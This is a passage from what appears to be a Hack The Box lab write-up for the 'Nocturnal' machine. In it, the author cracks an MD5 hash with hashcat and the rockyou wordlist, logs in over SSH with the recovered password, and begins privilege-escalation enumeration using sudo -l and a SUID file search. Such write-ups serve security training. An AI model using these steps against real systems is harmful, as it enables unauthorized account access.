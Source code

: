 ```
* Passwords.: 14344387
* Bytes.....: 53357705
* Keyspace..: 14344387

55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse     
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 55c82b1ccd55ab219b3b109b07d5061d
Time.Started.....: Mon Apr 28 00:16:21 2025 (1 sec)
Time.Estimated...: Mon Apr 28 00:16:22 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3720.1 kH/s (0.27ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3698688/14344387 (25.78%)
Rejected.........: 0/3698688 (0.00%)
Restore.Point....: 3686400/14344387 (25.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Host Generator + PCIe
Candidates.#1....: smartpizza -> slides8675
```

We got it: **slowmotionapocalypse**

I try to ssh in:
```
┌──(oriol㉿zero)-[~/htb/nocturnal]
└─$ ssh tobias@nocturnal.htb
The authenticity of host 'nocturnal.htb (10.10.11.64)' can't be established.
ED25519 key fingerprint is SHA256:rpVMGW27qcXKI/SxVXhvpF6Qi8BorsH7RNh1jzi8VYc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nocturnal.htb' (ED25519) to the list of known hosts.
tobias@nocturnal.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-212-generic x86_64)
```

And we are in! Time to connect the user flag!
### Privilege escalation
Tobias doesn't have any sudo permissions:
```
tobias@nocturnal:~$ sudo -l
[sudo] password for tobias: 
Sorry, user tobias may not run sudo on nocturnal.
```

Also, I don't see any interesting binaries with SUID permissions. I looked it up on https://gtfobins.github.io
```
tobias@nocturnal:~$ find / -perm /u=s,g=s 2>/dev/null
/run/sendmail
/run/sendmail/stampdir
/run/sendmail/msp
/run/sendmail/mta
/run/log/journal
/var/log/journal
/var/log/journal/58aeadfa5c4341028efdfcf816fc9d31
/var/mail
/var/local
/var/spool/mqueue
/var/spool/mqueue-client
/var/lib/sendmail
```